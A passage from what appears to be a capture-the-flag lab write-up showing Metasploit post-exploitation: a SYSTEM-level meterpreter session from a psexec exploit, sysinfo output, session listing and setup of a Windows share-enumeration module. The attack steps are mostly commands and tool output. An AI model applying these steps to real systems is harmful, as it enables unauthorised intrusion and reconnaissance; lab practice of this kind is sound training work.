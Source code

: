 Awesome, we are in! We now have a meterpreter session!

# Post-Exploitation

### System Information

Let's gather some information about the system with the command `sysinfo`:

```bash
meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 8
Meterpreter     : x86/windows
```

Lets answer a couple of the questions:

Computer name; `ACME-TEST`

Target domain: `FLASH`

### Share Enumeration

Let's check what shares are available:

Let's background the session with `CTRL+Z` so we can leverage some of the other modules. Let's list the open sessions to see what our session number is so we can use it in the near future:

```bash
msf6 exploit(windows/smb/psexec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                Connection
  -- ---- ---- ----------- ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ACM  1.2.3.4:4444 -> 10.10
                                     E-TEST                     .131.12:65160 (10.10.131.1
                                                                2)
```

In the future we can go back to this session using `sessions -i #`.

Now let's use the `post/windows/gather/enum_shares` module to gather information about the shares available:

```bash
msf6 exploit(windows/smb/psexec) > back
msf6 > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > show options

Module options (post/windows/gather/enum_shares):

   Name     Current Setting  Required  Description
   ---- --------------- -------- -----------
   CURRENT  true             yes       Enumerate currently configured shares
   ENTERED  true             yes       Enumerate Recently entered UNC Paths in the Run Dia
                                       log
   RECENT   true             yes       Enumerate Recently mapped shares
   SESSION                   yes       The session to run this module on.
```

